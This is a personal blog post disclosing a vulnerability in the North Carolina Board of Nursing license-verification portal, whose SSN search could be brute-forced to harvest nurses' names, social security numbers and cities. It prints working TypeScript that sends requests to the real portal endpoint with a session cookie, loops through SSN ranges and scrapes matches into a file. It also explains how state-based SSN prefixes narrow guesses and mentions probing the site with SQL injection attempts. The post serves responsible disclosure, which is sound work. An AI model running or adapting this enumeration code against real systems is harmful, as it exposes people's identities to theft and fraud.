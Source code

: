 ```yaml
---
layout: project
title: Social security number vulnerability for NC Nurses
thumbnail: images/ssn_search_in_html_comment.png
stack:
  - TypeScript
slug: ncbon-summary
source: https://github.com/willkrakow
publicId: carbon_1_okmryp
description: State agency website reveals social security numbers for registered nurses in North Carolina
date: 2023-02-21
---
```


A few months back my wife started a new nursing job. Around 10AM on her first day, she called and asked me to look up the renewal deadline for her nursing license. Being the good work-from-home husband that I am, I did some Googling and landed on the [North Carolina Board of Nursing License Verification Portal](https://portal.ncbon.com/LicenseVerification/search.aspx).

The portal offers three ways to search for a license: by name, by license number, and by **social security number**. This last one caught my eye - any time a feature related to SSNs is presented on a publicly facing website there's a possibility for data leaks. And state governments have shown [a lack of diligence](https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/) with respect to their employees SSNs before. So I began digging, for evidence of data mishandling.

What I found was that I could brute force the SSN search feature to get a list of names, social security numbers, and cities of residence for a large portion of nurses, nursing assistants, and nurse practitioners registered in the state of North Carolina.
---
To understand how this was possible - almost trivially so - we first need to examine domain of our search: the 1 billion possible nine-digit social security numbers.

The fact that SSNs serve as our nation's de facto 'password' that citizens must use to navigate legal, financial, and professional systems in the United States is somewhat of a duct-tape job. SSNs were never meant to be such a sensitive, critical token - they were introduced to keep track of income taxes. Cards issued between 1946 and 1972 were labeled ["Not for identification purposes"](https://web.archive.org/web/20120629234649/http://www.americanchronicle.com/articles/view/3911). However, in the 1960s, [the government shoehorned them into their current general identification role](https://www.ssa.gov/history/reports/ssnreportc2.html) to simplify digital record-keeping across agencies.

Ironically, despite serving as a pseudo-password to opening a credit card, verifying a license, or retrieving sensitive medical information, SSNs would fail nearly all password requirement checks on modern websites. 

In 2011, the Social Security Administration [began assigning SSNs in a pseudorandom fashion](https://www.ssa.gov/employer/randomization.html), rather than by state (as it did prior to 1972) or ZIP code (1972-2011) as it had in the past. But for those of us born prior to 2011, a bad actor only needs to know the year and US state in which someone was born to quickly assert the first three numbers (e.g., 123-##-####), or at least a range of those first three numbers (e.g., 123-##-#### through 125-##-####). Even the largest state by population, California, had only 81 possible three-digit prefixes between 1973 and 2011 - that means we can be certain that a person born in California between those years *does not* have an SSN in the remaining **99.2%** of all possible combinations.

For those whose parents applied for a social security card in North Carolina between 1972 and 2011 - your SSN is either between 237-##-#### and 246-##-####, or (less likely) 681-##-#### and 690-##-####.
---
So back to my #hacking. I began by digging in the most obvious place: the HTML source and the network requests. I searched for my wife by name, then opened up the dev console and did a quick regex search various forms of her SSN (e.g., #########, ###-##-####, ### ## ####) - and came up empty. Good!

The network requests were also clean - they *were* sending SSNs as a query parameter to the a `/Search.aspx` endpoint, but it seemed resistant to trivial SQL injections. Another point for the Board.

I had assumed that the endpoint would be rate limited and protected with some sort of malicious threat protection, but even after nearly an hour of entering obvious SQL injections and malformed requests, my IP hadn't been blocked. Maybe I could just brute force this?

To test my theory, I copied the `/Search.aspx` API call as a curl request and sent a few test payloads. And there it was - the API was returning different response statuses for positive results and negative results, and the results list for a given SSN query was serialized in an ASP.NET _VIEWSTATE attribute.

To test the extent of this vulnerability I wrote ~50 lines of TypeScript that would loop through a shortened list of 1 million numbers (e.g., ###-00-0000 - ###-99-9999) and check if the response had results or not. I let that script run for about 20 minutes - with no interval randomization, no IP address shuffling, no proxy server, and managed to construct a list of over 1000 names, SSNs, and cities of residence for the nurses of North Carolina. With a little optimization, I'm confident I could retrieve thousands of results in an equally short amount of time.

```typescript
const fetchBySSN = (num: string) => fetch("https://portal.ncbon.com/LicenseVerification/search.aspx", {
        method: "POST",
        headers: {
            "accept": "text/html,application/xhtml+xml",
            "content-type": "application/x-www-form-urlencoded",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`
        },

        "referrerPolicy": "strict-origin-when-cross-origin",
        "referrer": "https://portal.ncbon.com/LicenseVerification/search.aspx",
        body: `__VIEWSTATE=%...txtSSN=${num}&...`,
})

// Negative result will contain the string "unable to locate any results..."
// Positive result will contain any empty <ul> for the error messages
```
```typescript

const fetchResultsList = () => fetch("https://portal.ncbon.com/LicenseVerification/resultList.aspx", {
        headers: {
            "authority": "portal.ncbon.com",
            "accept": "text/html,application/xhtml+xml",
            "cache-control": "no-cache",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`,
            "referer": "https://portal.ncbon.com/licenseverification/search.aspx",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1"
        }
})
```
### Response
```html
...
<tr>
	<td>M**** P*******</td>
	<td>Asheville, NC</td>
	<td>NAII Listing</td>
	<td class="text-right">
        <input type="button" value="View Record" class="btn btn-info btn-xs" onclick="document.location='/LicenseVerification/result.aspx?ID=7****5';" />
    </td>
</tr>
...
```
```typescript
const prefixes = ['']

const ssnFetches = async () => {
    const filename = path.join(__dirname, 'results_new.txt');
    fs.appendFileSync(filename, 'Results');

    let totalFound = 0;

    for await (let prefix of prefixes) {
        for (let i = 1; i < 100; i++) {
            let areaCode = `${i}`;
            if (i < 10) {
                areaCode = `0${i}`
            }
            for (let j = 9998; j > 1000; j--) {
                let lastFour = `${j}`
                const fullSSN = `${prefix}-${areaCode}-${lastFour}`
                try {
                    const res = await fetchBySSN(fullSSN);
                    if (res.status !== 200) {
                        console.error("Error fetching")
                        console.error(res.statusText)
                        continue
                    }
                    const text = await res.text()
                    if (text.includes('unable to locate any results matching ')) {
                        console.info(`No matches for ${fullSSN}`)
                        continue;
                    }
                    const resultString = `${fullSSN} - is a nurse\n`

                    const resultResponse = await fetchResultsList(); // Fetch the results HTML using the same session cookie
                    const resultHtml = await resultResponse.text();
                    const document = new jsDom.JSDOM(resultHtml);
                    const nodes = document.window.document.querySelectorAll("div.primaryContent tr"); // Grab the results from the <table>
                    const results = [...nodes]
                        .slice(1) // Remove header row
                        .map(row => ({
                            name: row.children[0].innerHTML,
                            location: row.children[1].innerHTML,
                            ssn: fullSSN,
                        }));
                    fs.appendFileSync(filename, JSON.stringify(results));
                    totalFound += 1;
                    console.log(`total found: ${totalFound}`)
                    console.log(resultString)
                } catch (err) {
                    console.error(err)
                }
            }
        }
    }    
}
```
---
I reported these findings to the NCBON immediately after discovery and initial documentation. About 24 hours later, I still hadn't heard back, though they had commented out the section of HTML that displayed the SSN search so they clearly read my message. However, the API endpoint was still open, and again I was able to exploit it with no problems. I sent another message mentioning this, and a few hours later received a call from the Board's Chief Legal Officer.

The legal officer apologized for the delay, thank me for being forthcoming, and we set up a time to meet with the IT Director to discuss the issue the following day. I sent over the scripts, payloads, screenshots, and a timeline as well as a summary of my findings and recommendations, and they said they'd get back to me with any questions.
---
It's been about 45 days since that call, which is more than the 30 day disclosure window I thought was adequate. Last I checked, the endpoint was still open.



